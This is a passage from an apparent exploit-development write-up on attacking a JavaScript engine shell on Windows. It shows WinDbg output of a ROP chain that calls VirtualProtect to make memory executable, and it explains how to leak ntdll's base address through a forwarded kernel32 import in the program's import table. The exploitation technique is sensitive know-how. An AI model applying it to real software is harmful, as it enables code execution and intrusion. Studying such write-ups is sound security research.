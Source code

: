 ```text

0:000> dqs 000002b2`f7a75000
000002b2`f7a75000  00007ff7`805fc4ec <- Beginning of the ROP chain that makes this region executable
000002b2`f7a75008  000002b2`f7926400
000002b2`f7a75010  00007ff7`805a31da
000002b2`f7a75018  00000000`000002a8
000002b2`f7a75020  00007ff7`80a9c302
000002b2`f7a75028  00000000`00000040
000002b2`f7a75030  00007fff`b647b0b0 KERNEL32!VirtualProtectStub
000002b2`f7a75038  00007ff7`81921d09
000002b2`f7a75040  11111111`11111111
000002b2`f7a75048  22222222`22222222
000002b2`f7a75050  33333333`33333333
000002b2`f7a75058  44444444`44444444
```

Awesome :).

### Leaking ntdll base address

Solving the above step unfortunately added another problem to solve on our list. Even though we found a pivot, we now need to retrieve at runtime where the ntdll module is loaded at.

As this exploit is already pretty full of hardcoded offsets and bad decisions there is an easy way out. We already have the base address of the `js.exe` module and we know `js.exe` imports functions from a bunch of other modules such as `kernel32.dll` (but not `ntdll.dll`). From there, I basically dumped all the imported functions from `kernel32.dll` and saw this:

```text
0:000> !dh -a js
[...]
  _IMAGE_IMPORT_DESCRIPTOR 00007ff781e3e118
    KERNEL32.dll
      00007FF781E3D090 Import Address Table
      00007FF781E3E310 Import Name Table
                     0 time date stamp
                     0 Index of first forwarder reference

0:000> dqs 00007FF781E3D090
00007ff7`81e3d090  00007fff`b647c2d0 KERNEL32!RtlLookupFunctionEntryStub
00007ff7`81e3d098  00007fff`b6481890 KERNEL32!RtlCaptureContext
00007ff7`81e3d0a0  00007fff`b6497390 KERNEL32!UnhandledExceptionFilterStub
00007ff7`81e3d0a8  00007fff`b6481b30 KERNEL32!CreateEventW
00007ff7`81e3d0b0  00007fff`b6481cb0 KERNEL32!WaitForSingleObjectEx
00007ff7`81e3d0b8  00007fff`b6461010 KERNEL32!RtlVirtualUnwindStub
00007ff7`81e3d0c0  00007fff`b647e640 KERNEL32!SetUnhandledExceptionFilterStub
00007ff7`81e3d0c8  00007fff`b647c750 KERNEL32!IsProcessorFeaturePresentStub
00007ff7`81e3d0d0  00007fff`b8c038b0 ntdll!RtlInitializeSListHead
```

As `kernel32!InitializeSListHead` is a [forward-exports](https://blogs.msdn.microsoft.com/oldnewthing/20060719-24/?p=30473) to `ntdll!RtlInitializeSListHead` we can just go and read at `js+0190d0d0` to get an address inside `ntdll`. From there, we can subtract (another..) hardcoded offset to get the base and voilà.
